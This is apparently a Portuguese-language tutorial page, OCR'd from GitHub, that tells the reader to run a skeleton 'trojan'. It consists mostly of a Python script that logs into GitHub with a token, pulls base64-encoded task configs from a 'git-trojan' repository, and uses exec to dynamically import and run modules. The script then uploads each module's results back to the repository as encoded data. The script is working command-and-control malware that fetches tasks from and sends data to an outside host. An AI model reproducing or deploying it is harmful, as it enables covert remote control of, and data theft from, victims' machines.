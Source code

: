 ### Explorando o código

Boa! Agora, para executar o trojan, coloque apenas o seguinte código-esqueleto no arquivo a ser executado:

```py
import base64
import importlib.util
import github3
import importlib
import json
import random
import sys
import threading
import time

from datetime import datetime

def github_connect():
    with open("token.txt") as f:
        token = f.read().strip()
    user = "caioescorcio"
    sess = github3.login(token=token)
    return sess.repository(user, "git-trojan")

def get_file_contents(dirname, module_name, repo):
    return repo.file_contents(f'{dirname}/{module_name}').content

class Trojan:
    def __init__(self, id):
        self.id = id
        self.config_file = f'{id}.json'
        self.data_path = f'data/{id}'
        self.repo = github_connect()
        
    def get_config(self):
        config_json = get_file_contents('config', self.config_file, self.repo)
        config = json.loads(base64.b64decode(config_json))
        
        for task in config:
            if task['module'] not in sys.modules:
                exec("import %s" % task['module'])
                
        return config

    def module_runner(self, module):
        result = sys.modules[module].run()
        self.store_module_result(result)
        
    def store_module_result(self, data):
        message = datetime.now().isoformat()
        remote_path = f'data/{self.id}/{message}.data'
        bin_data = bytes('%r' % data, 'utf-8')
        self.repo.create_file(remote_path, message, base64.b64encode(bin_data))        
        
    def run(self):
        while True:
            config = self.get_config()
            for task in config:
                thread = threading.Thread(target=self.module_runner, 
                                          args= (task['module'], ))
                thread.start()
                time.sleep(random.randint(1, 10))
                
```
